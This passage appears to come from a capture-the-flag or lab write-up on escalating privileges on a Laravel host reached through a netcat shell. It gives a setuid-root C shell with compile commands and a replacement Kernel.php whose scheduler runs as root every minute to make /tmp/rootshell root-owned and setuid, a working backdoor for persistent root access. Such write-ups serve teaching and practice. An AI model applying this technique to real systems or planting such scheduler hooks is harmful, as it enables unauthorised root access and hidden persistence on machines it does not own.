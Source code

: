 We can see that there are no tasks scheduled:

![[kernel.php1.png]]

While we can access tools like *nano* and *vim*, our netcat shell does not allow for them to function properly. So we can make a copy on our attacker machine, edit it locally, and host it for the target to download and replace the original.

First lets create and compile a shell to execute. This way we are able to persist our privileges session.

On your attacker machine, run the following commands:

```bash
echo -e "int main(void){\n	setuid(0);\n	setgid(0);\n	system(\"/bin/bash\");\n}" > shell.c
gcc -o rootshell shell.c
```

Now we can make our *Kernel.php* file. Here is the code that I used:

```php
<?php

namespace App\Console;

use Illuminate\Console\Scheduling\Schedule;
use Illuminate\Foundation\Console\Kernel as ConsoleKernel;

class Kernel extends ConsoleKernel
{
    /**
     * The Artisan commands provided by your application.
     *
     * @var array
     */
    protected $commands = [
        //
    ];

    /**
     * Define the application's command schedule.
     *
     * @param  \Illuminate\Console\Scheduling\Schedule  $schedule
     * @return void
     */
    protected function schedule(Schedule $schedule)
    {
        $schedule->exec('chown root:root /tmp/rootshell;chmod 4755 /tmp/rootshell')->everyMinute();
        //          ->hourly();
    }

    /**
     * Register the Closure based commands for the application.
     *
     * @return void
     */
    protected function commands()
    {
        require base_path('routes/console.php');
    }
}
```
